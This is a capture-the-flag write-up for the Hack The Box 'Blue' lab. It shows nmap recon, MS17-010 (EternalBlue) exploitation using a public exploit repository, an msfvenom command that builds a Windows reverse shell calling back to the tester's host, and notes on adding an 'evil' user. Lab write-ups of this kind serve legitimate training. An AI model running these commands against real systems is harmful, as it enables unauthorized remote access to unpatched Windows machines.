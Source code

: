 # Blue Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA blue 10.10.10.40``

### and

``nmap --script vuln 10.10.10.40``

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/219156029-61007f6c-1d63-4c56-80c3-b0b229a7d281.png)

# ${{\color{purple}Exploitation}}\ $

### I used this script to run ms-17-010 :
### The most important thing here is not the exploitation but to make a python2 script work with impacket

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

``git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143``

### There is no need for it for this exploit but the pipes checker works very well :

![blue2](https://user-images.githubusercontent.com/123066149/219165990-17752e32-6dfb-4b7a-ba59-a86b0c56e03f.PNG)


``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f exe -o ms17-010.exe``

### Change the username to make it work in the exploit 

![image](https://user-images.githubusercontent.com/123066149/219158101-530f4d9d-5ed4-409d-bed3-a0a82bc165cf.png)

``python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe``

![image](https://user-images.githubusercontent.com/123066149/219158641-ace89ab3-225a-4e79-ba19-8d81347e8ca5.png)

![image](https://user-images.githubusercontent.com/123066149/219158807-4134bd30-2ed5-4c02-87f4-583882b6c2e3.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc because the service runs with system rights

# ${{\color{purple}Point of Improvement}}\ $

* If I have problems with a python 2.7 script and impacket I have to do this :

``sudo python2.7 get-pip.py``

``pip2.7 install --upgrade setuptools``

``python2.7 -m pip install impacket``

![image](https://user-images.githubusercontent.com/123066149/219160110-72dbd5b9-e8ee-4af8-8199-40a5f749e80d.png)

# ${{\color{purple}Other tets}}\ $

### Test of the exploit 42315.py

![blue5](https://user-images.githubusercontent.com/123066149/219174901-f68feb19-1549-4097-9ab6-607db3c29aed.PNG)

### Modification of the smb_pwn function :


![blue6](https://user-images.githubusercontent.com/123066149/219175013-27ec2f1f-a6fb-4c60-bdb4-2746fe0f8148.PNG)

![blue3](https://user-images.githubusercontent.com/123066149/219174727-b487e88a-d945-4456-9884-305f928f8c65.PNG)

![blue4](https://user-images.githubusercontent.com/123066149/219174912-019f1ad4-3c07-4b43-b391-8980728eb7e6.PNG)


### Test of the RCE via ping and tcpdump :
### Modification of the smb_pwn function :

![blue7](https://user-images.githubusercontent.com/123066149/219175311-5ce854fc-0d1f-457c-996c-36249ec33e08.PNG)

![blue8](https://user-images.githubusercontent.com/123066149/219175336-9aebc130-0d4a-4ed1-a735-565f91dccbd8.PNG)

![blue9](https://user-images.githubusercontent.com/123066149/219175351-95653981-f62b-4ba5-89b2-d56efd2481d6.PNG)

### Creation of a user evil :
### Modification of the smb_pwn function :

![blue10](https://user-images.githubusercontent.com/123066149/219175537-e3b8f7f7-c0c0-4286-a445-04eaef3ea009.PNG)

![blue12](https://user-images.githubusercontent.com/123066149/219175605-eb354ce2-2f86-415f-a3ca-87edbd8fc66e.PNG)


![blue11](https://user-images.githubusercontent.com/123066149/219175576-d12f11e8-37ac-4586-9b12-b4b42b6c480f.PNG)


